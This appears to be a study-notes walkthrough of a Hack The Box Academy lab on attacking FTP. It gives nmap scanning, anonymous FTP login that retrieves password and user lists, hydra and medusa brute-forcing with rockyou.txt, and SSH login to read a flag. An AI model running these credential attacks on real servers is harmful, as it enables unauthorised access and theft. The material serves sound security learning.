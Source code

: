 ## [Attacking FTP](https://referral.hackthebox.com/mzyGKZb)

# Attacking FTP

| Command                                                       | Description                                     |
|---------------------------------------------------------------|-------------------------------------------------|
| `ftp 192.168.2.142`                                           | Connecting to the FTP server using the ftp client. |
| `nc -v 192.168.2.142 21`                                      | Connecting to the FTP server using netcat.         |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service.                     |
| `hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP` | Brute Forcing the FTP service with Hydra. |
| `hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP` |  Brute Forcing the FTP service with Hydra  |
| `medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp` |Brute Forcing with Medusa.              |


## Questions:
1. What port is the FTP service running on? 

```
sudo nmap -sV -sC $TARGET_IP -Pn
```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/CPTS/Attacking-Common-Services/FTP/ftp-nmap-scan.png">

2. What username is available for the FTP server? 

```
wget -m --no-passive ftp://anonymous:anonymous@10.129.203.6 -Pn
```
or
```
ftp 10.129.203.6 -p 2121
Connected to 10.129.203.6.
220 ProFTPD Server (InlaneFTP) [10.129.203.6]
Name (10.129.203.6:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55278|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp          1959 Apr 19  2022 passwords.list
-rw-rw-r--   1 ftp      ftp            72 Apr 19  2022 users.list
226 Transfer complete
ftp> mget *
mget passwords.list [anpqy?]? y
229 Entering Extended Passive Mode (|||43085|)
150 Opening BINARY mode data connection for passwords.list (1959 bytes)
  1959        1.31 MiB/s 
226 Transfer complete
1959 bytes received in 00:00 (174.85 KiB/s)
mget users.list [anpqy?]? y
229 Entering Extended Passive Mode (|||7181|)
150 Opening BINARY mode data connection for users.list (72 bytes)
    72       30.43 KiB/s 
226 Transfer complete
72 bytes received in 00:00 (6.39 KiB/s)
ftp> 
```

```
hydra -L users.list -P passwords.list  ftp://10.129.203.6:2121 -V
```
 `
  [2121][ftp] host: 10.129.203.6   login: r****   password: 7iz***********7
`


3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

```
ssh $username@$TARGET_IP
```

`ls`

`cat flag.txt`


## HTB{ ATT******_********C3}

# [Subscribe for getting more HTB Cubes!](https://referral.hackthebox.com/mzyGKZb)

